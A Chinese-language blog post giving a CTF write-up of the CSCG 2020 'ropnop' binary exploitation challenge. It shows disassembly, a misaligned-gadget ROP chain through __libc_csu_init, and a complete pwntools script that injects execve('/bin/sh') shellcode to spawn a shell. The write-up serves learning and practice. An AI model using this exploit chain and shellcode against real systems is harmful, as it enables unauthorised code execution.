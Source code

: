 ```yaml
---
layout: post
title: CTF PWN Rop
date: 2020-04-21 00:02:00 +0300
description: CSCG CTF Ropnop
img: 1103.jpg # Add image post (optional)
tags: [归档] # add tag
---
```

***
### <font color=0066FF>序言</font>

<font color=green>通过CTF进行网络安全的学习是一个非常不错的方法，我认为这也非常有趣。最近，我接触了一种称为ROP的怪异的技术。这里要介绍的是CSCG 2020 CTF的一道PWN题目，主要介绍解题的思路过程：ropnop</font>

<!--break-->

### <font color=0066FF>题目分析</font>
题目线索：使用我的ropnop，可以确保没有人可以利用我的粗略的C代码！
首先检查一下系统保护的情况**checksec ./roper**
``` 
[*] /home/xc/Documents/pwn_docker_example/ctf/CSCG/ropnop/ropnop
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
没有<font color=red>canary</font>的限制，后边虽然开启了<font color=red>NX</font>，但是在代码中发现使用mprotect修改了内存区域的保护属性为可读可写可执行。另外直接使用了printf输出<font color=red>&__executable_start</font>和<font color=red>&etext</font>地址。
![image](/assets/img/1586887691_5e95fc0b07caa.png!small.jpeg){:width="1400px"}

整个程序的功能非常简单：<font color=red>main --> [init_buffering()，ropnop()，read()]</font>，另外还有一个没有调用的函数 gadget_shop()
```
pwndbg> disassemble gadget_shop
Dump of assembler code for function gadget_shop:
   0x00000000000011e0 <+0>:    push   rbp
   0x00000000000011e1 <+1>:    mov    rbp,rsp
   0x00000000000011e4 <+4>:    syscall 
   0x00000000000011e6 <+6>:    ret    
   0x00000000000011e7 <+7>:    pop    rax
   0x00000000000011e8 <+8>:    ret    
   0x00000000000011e9 <+9>:    pop    rdi
   0x00000000000011ea <+10>:    ret    
   0x00000000000011eb <+11>:    pop    rsi
   0x00000000000011ec <+12>:    ret    
   0x00000000000011ed <+13>:    pop    rdx
   0x00000000000011ee <+14>:    ret    
   0x00000000000011ef <+15>:    pop    rbp
   0x00000000000011f0 <+16>:    ret    
End of assembler dump.
```

开始看到这里的时候看到有很多可被构造<font color=red>gadget</font>的"片段"，还有一个<font color=red>syscall</font>可以利用，有一个思路就是通过前边的read进行<font color=red>overflow</font>覆盖<font color=red>ret</font>构建<font color=red>gadget</font>,直接利用这里的syscall进行系统调用执行系统命令。继续分析后发现在ropnop()函数中进行了一些操作修改了程序内容，使得<font color=red>&__executable_start</font>和<font color=red>&etext</font>之间所有的ret转变为nop；就像题目的描述一样，作者认为这样就可以破坏掉gadget的构造！真的是这样吗？程序调用libc库用来对程序进行初始化的函数<font color=red>__libc_csu_init</font>：
```
   ....................
   0x0000555555555330 <+64>:    mov    rdx,r14
   0x0000555555555333 <+67>:    mov    rsi,r13
   0x0000555555555336 <+70>:    mov    edi,r12d
   0x0000555555555339 <+73>:    call   QWORD PTR [r15+rbx*8]
   0x000055555555533d <+77>:    add    rbx,0x1
   0x0000555555555341 <+81>:    cmp    rbp,rbx
   0x0000555555555344 <+84>:    jne    0x555555555330 <__libc_csu_init+64>
   0x0000555555555346 <+86>:    add    rsp,0x8
   0x000055555555534a <+90>:    pop    rbx
   0x000055555555534b <+91>:    pop    rbp
   0x000055555555534c <+92>:    pop    r12
   0x000055555555534e <+94>:    pop    r13
   0x0000555555555350 <+96>:    pop    r14
   0x0000555555555352 <+98>:    pop    r15
   0x0000555555555354 <+100>:    ret 
```
这里开始我想要通过<font color=red>gadget</font>构造<font color=red>execve</font>执行，这样的<font color=red>syscall</font>调用需要满足几个寄存器的内容为：<font color=red>%rax == 0x3b(sys_execve)，%rdi == [/bin/sh]，%rdx == *[/bin/sh]；</font>但非常不幸的是程序真的非常小，实在是找不到足够的gadget，这时我开始怀疑题目的描述，我开始尝试<font color=red>**ROP**</font>以外的方式进行攻击，事实证明我想多了，oh,我感到自己真的很菜，我找了个角落“自卑”了一会；第二天吃了点小葱蘸酱突然想到我忽略了一点，这里题目作为还为我们留了一扇“窗”，我们还有一个***read***函数可以利用，我忽略了一点我们的程序现在是可读可写可执行的，有一个思路<font color=red>ROP + shellcode + ROP</font> 。我们可以将<font color=red>read</font>的<font color=red>buf</font>指向<font color=red>gadget_shop</font>的地址，ok,让我们来尝试构造:
```
pwndbg> x/5i 0x0000555555555351
   0x555555555351 <__libc_csu_init+97>:    pop    rsi
   0x555555555352 <__libc_csu_init+98>:    pop    r15
   0x555555555354 <__libc_csu_init+100>:    ret    
   0x555555555355:    data16 nop WORD PTR cs:[rax+rax*1+0x0]
   0x555555555360 <__libc_csu_fini>:    endbr64 
pwndbg> x/5i 0x0000555555555353
   0x555555555353 <__libc_csu_init+99>:    pop    rdi
   0x555555555354 <__libc_csu_init+100>:    ret    
   0x555555555355:    data16 nop WORD PTR cs:[rax+rax*1+0x0]
   0x555555555360 <__libc_csu_fini>:    endbr64 
   0x555555555364 <__libc_csu_fini+4>:    ret 
```
由上看到在<font color=red>__libc_csu_init</font>中发现一个”美妙的错位“，这是<font color=red>***Intel x86***</font>汇编的“自作聪明”。这里满足了构造rsi和rdi的覆写，条件: <font color=red>%rdi == 0, %rsi == *gadget_shop</font>，尝试写入我们的shellcode：<font color=red>p.sendline("\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05")</font>
![image](/assets/img/1586891373_5e960a6d26835.png!small.jpeg){:width="1400px"}
nice，最后ROP到gadget_shop的位置，执行我们的<font color=red>shellcode：execve("/bin/sh", ["/bin/sh"], NULL);</font> 系统调用执行命令，拿到shell. Done!
我蹩脚的利用脚本:

```
from pwn import *

#p = remote('127.0.0.1', 6666)
#p = remote('hax1.allesctf.net', 9300)
p = process("./ropnop")
#start memory
out = p.recvuntil("\n")
mem_start = int(out.split(" ")[-4], 16)
print out

r12 = 0x68732f6e69622f
gadget_shop_offset = 0x11e0
ropnop_offset = 0x129b
libc_csu_init_off = 0x1351
read_off = 0x12cf
gadget_off = 0x11e0
gadget_shop = mem_start + gadget_shop_offset
ropnop_ret = mem_start + ropnop_offset
libc_csu_init = mem_start + libc_csu_init_off   # call libc init...
read = mem_start + read_off
gadget = mem_start + gadget_off

raw_input(":")
p.sendline("A"*16+p64(ropnop_ret)*2+p64(libc_csu_init)+p64(gadget)*2+p64(libc_csu_init+2)+p64(0)+p64(read)+"A"*40+p64(ropnop_ret)+p64(gadget))
raw_input(":")
p.sendline("\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05")  # shellcode
"""
    xor     rdx, rdx
    mov     qword rbx, '//bin/sh'
    shr     rbx, 0x8
    push    rbx
    mov     rdi, rsp
    push    rax
    push    rdi
    mov     rsi, rsp
    mov     al, 0x3b
    syscall
"""

p.interactive()

```
### <font color=0066FF>我的思考</font>
非常简单的题目，只是我很菜，花了很长时间，不过确实也学到了一些知识。我想我的大脑还有有待开发，我要“进化”。
我们要学会更具有创造性，基础知识的积累也很重要。**看到这里的表哥告诉我你的大脑在什么阶段！！！**

![image](/assets/img/1586891914_5e960c8a33313.png!small.jpeg)

